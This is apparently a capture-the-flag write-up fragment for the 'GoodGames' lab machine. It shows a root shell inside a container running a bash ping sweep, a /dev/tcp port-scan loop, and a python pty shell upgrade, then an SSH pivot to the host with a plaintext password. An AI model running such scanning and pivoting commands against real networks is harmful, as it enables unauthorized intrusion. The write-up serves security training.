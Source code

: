 ### Ping scan
first two numbers are 172.19
```
root@3a453ab39d3d:/backend# for i in {1..254}; do (ping -c 1 172.19.0.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
<grep "bytes from" | grep -v "Unreachable" &); done;
64 bytes from 172.19.0.1: icmp_seq=1 ttl=64 time=0.104 ms
64 bytes from 172.19.0.2: icmp_seq=1 ttl=64 time=0.026 ms

```

### Port scan

```
for port in {1..65535}; do echo > /dev/tcp/172.19.0.1/$port && echo "$port open"; done 2>/dev/null
```

## ssh to augustus@goodgames

```
root@3a453ab39d3d:/backend# ssh augustus@172.19.0.1
ssh augustus@172.19.0.1
Pseudo-terminal will not be allocated because stdin is not a terminal.
Host key verification failed.
root@3a453ab39d3d:/backend# python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'
root@3a453ab39d3d:/backend# ssh augustus@172.19.0.1
ssh augustus@172.19.0.1
The authenticity of host '172.19.0.1 (172.19.0.1)' can't be established.
ECDSA key fingerprint is SHA256:AvB4qtTxSVcB0PuHwoPV42/LAJ9TlyPVbd7G6Igzmj0.
Are you sure you want to continue connecting (yes/no)? yes
yes
Warning: Permanently added '172.19.0.1' (ECDSA) to the list of known hosts.
augustus@172.19.0.1's password: superadministrator

Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
augustus@GoodGames:~$   
```

### Hostname
```
augustus@GoodGames:~$ hostname -I
hostname -I
10.129.113.82 172.17.0.1 172.19.0.1 dead:beef::250:56ff:feb9:e276 
```

